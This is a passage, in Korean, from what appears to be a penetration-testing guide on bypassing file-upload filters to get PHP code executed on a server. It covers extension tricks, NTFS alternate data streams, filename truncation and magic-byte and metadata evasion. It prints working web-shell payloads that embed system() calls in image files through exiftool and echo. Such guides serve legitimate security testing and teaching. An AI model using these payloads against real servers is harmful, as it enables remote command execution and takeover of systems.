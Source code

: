5. 이전 검사에 **또 다른 확장자 레이어**를 추가합니다:
* _file.png.jpg.php_
* _file.php%00.png%00.jpg_
6. **유효한 확장자 앞에 exec 확장자를 넣고** 서버가 잘못 구성되기를 기도해 보세요. (확장자** _**.php**_**로 끝나지 않더라도** 코드가 실행되는 Apache 잘못 구성된 경우에 유용합니다):
* _예: file.php.png_
7. **Windows**에서 **NTFS 대체 데이터 스트림 (ADS)** 사용하기. 이 경우, 금지된 확장자 뒤에 콜론 문자 “:”가 삽입되고 허용된 확장자 앞에 삽입됩니다. 결과적으로, **서버에 금지된 확장자를 가진 빈 파일**이 생성됩니다 (예: “file.asax:.jpg”). 이 파일은 나중에 다른 기술을 사용하여 편집할 수 있습니다. “**::$data**” 패턴을 사용하여 비어 있지 않은 파일을 생성할 수도 있습니다. 따라서 이 패턴 뒤에 점 문자를 추가하는 것도 추가 제한을 우회하는 데 유용할 수 있습니다 (예: “file.asp::$data.”)
8. 파일 이름 제한을 **깨뜨려 보세요**. 유효한 확장자가 잘리게 됩니다. 그리고 악성 PHP가 남게 됩니다. AAA<--SNIP-->AAA.php

```
# 리눅스 최대 255 바이트
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # 여기서 4를 빼고 .png 추가
# 파일을 업로드하고 응답을 확인하여 허용되는 문자의 수를 확인합니다. 예를 들어 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# 페이로드 만들기
AAA<--SNIP 232 A-->AAA.php.png
```

### Content-Type, 매직 넘버, 압축 및 크기 조정 우회

* **Content-Type** 검사를 우회하려면 **Content-Type** **헤더**의 **값**을 다음으로 설정합니다: _image/png_, _text/plain_, application/octet-stream_
1. Content-Type **단어 목록**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
* 파일의 시작 부분에 **실제 이미지의 바이트**를 추가하여 **매직 넘버** 검사를 우회합니다 (파일 명령을 혼란스럽게 함). 또는 **메타데이터** 안에 쉘을 삽입합니다:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` 또는 이미지를 통해 **페이로드를 직접 삽입**할 수도 있습니다:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* **압축이 이미지에 추가되는 경우**, 예를 들어 [PHP-GD](https://www.php.net/manual/fr/book.image.php)와 같은 표준 PHP 라이브러리를 사용하여, 이전 기술은 유용하지 않을 수 있습니다. 그러나 **PLTE 청크** [**여기 정의된 기술**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)을 사용하여 압축을 **견딜 수 있는** 텍스트를 삽입할 수 있습니다.
* [**코드가 포함된 깃허브**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* 웹 페이지가 **이미지의 크기를 조정**할 수도 있습니다. 예를 들어 PHP-GD 함수 `imagecopyresized` 또는 `imagecopyresampled`를 사용합니다. 그러나 **IDAT 청크** [**여기 정의된 기술**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)을 사용하여 압축을 **견딜 수 있는** 텍스트를 삽입할 수 있습니다.
* [**코드가 포함된 깃허브**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_idat\_png.php)
* PHP-GD 함수 `thumbnailImage`를 사용하여 **이미지 크기 조정**을 견딜 수 있는 페이로드를 만드는 또 다른 기술입니다. 그러나 **tEXt 청크** [**여기 정의된 기술**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html)을 사용하여 압축을 **견딜 수 있는** 텍스트를 삽입할 수 있습니다.
* [**코드가 포함된 깃허브**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_tEXt\_png.php)
